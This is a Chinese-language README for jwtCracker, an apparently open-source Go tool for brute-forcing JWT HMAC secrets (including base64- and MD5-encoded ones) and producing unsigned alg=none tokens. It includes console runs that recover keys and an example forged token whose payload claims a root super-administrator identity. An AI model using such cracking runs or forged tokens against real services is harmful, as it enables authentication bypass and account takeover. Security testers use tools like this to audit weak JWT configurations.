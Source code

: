 # 项目概述

jwtCracker是一款go语言编写的jwt常见安全问题利用工具，主要功能有：

一、暴力破解：目前支持HS256、HS384、HS512加密方式的破解，另外鉴于部分人喜欢把普通密码经过编码后再作为密钥，本程序支持对密钥进行32位md5、16位md5、base64编码后再进行暴力破解

二、生成alg=none的jwt token



## 安装

```
git clone https://github.com/alwaystest18/jwtCracker.git
cd jwtCracker/
go install
go build jwtCracker.go
```

## 用法

```
Usage: jwtCracker COMMAND [options]

encode [generate jwt token(alg=none)]
  -pf string
        path of payload file
crack [brute force jwt key]
  -em string
        encryption method of key [none(default), md5, md5_len16, base64] (default "none")
  -kf string
        path of key file
  -tf string
        path of token file
```

token文件内容示例

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.vvmEOcKCp02AUFIthrIAO-TC4XIZr782tiIbzsYyjWY
```

key文件内容示例

```
123

123456

abc

...
```

payload文件示例

```
{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022
}
```



### 示例

1.根据字典内容暴力破解，token文件与密钥字典文件路径自行替换

```
E:\golang>jwtCracker.exe crack -tf token.txt -kf keys.txt
found key: alwaystest
Execution time:[4.637584s]
E:\golang>
```

2.对字典的值base64编码后暴力破解

```
E:\golang>jwtCracker.exe crack -tf token.txt -kf keys.txt -em base64
found key: enp6cg==
Execution time:[4.6872635s]
E:\golang>
```

3.对字典的值md5哈希后暴力破解

```
E:\golang>jwtCracker.exe crack -tf token.txt -kf keys.txt -em md5
found key: 202cb962ac59075b964b07152d234b70
Execution time:[117.999ms]
E:\golang>
```

4.对字典的值16位md5哈希后暴力破解

```
E:\golang>jwtCracker.exe crack -tf token.txt -kf keys.txt -em md5_len16
found key: ac59075b964b0715
Execution time:[126.4814ms]
E:\golang>
```

5.生成alg=none的jwt token

```
E:\golang>jwtCracker.exe encode -pf payload.txt
eyJhbGciOiAibm9uZSIsInR5cCI6ICJKV1QifQ.ew0gICJpc3MiOiAiaXNzdXNlciIsDSAgImF1ZCI6ICJhdWRpZW5jZSIsDSAgInRlbmFudF9pZCI6ICIwMDAwMDAiLA0gICJyb2xlX25hbWUiOiAi6LaF57qn566h55CG5ZGYIiwNICAidXNlcl9pZCI6ICIxMDAwIiwNICAicm9sZV9pZCI6ICIxMDAwIiwNICAidXNlcl9uYW1lIjogInJvb3QiLA0gICJkZXRhaWwiOiB7DSAgICAidHlwZSI6ICJ3ZWIiLA0gICAgInN0b3JlX2lkIjogMTUzNTE1NjIxMTc4MTk5NjUwMA0gIH0sDSAgInRva2VuX3R5cGUiOiAiYWNjZXNzX3Rva2VuIiwNICAiYWNjb3VudCI6ICJyb290IiwNICAiY2xpZW50X2lkIjogInNhYmVyIiwNICAiZXhwIjogMTY3NzUxMzY3OSwNICAibmJmIjogMTY3NzM0MDg3OQ19.

E:\golang>
```

## 执行时间

测试53w行字典，真实密钥放在最后一行，6.3秒即可跑出结果(16G内存 i5的4核cpu主机)
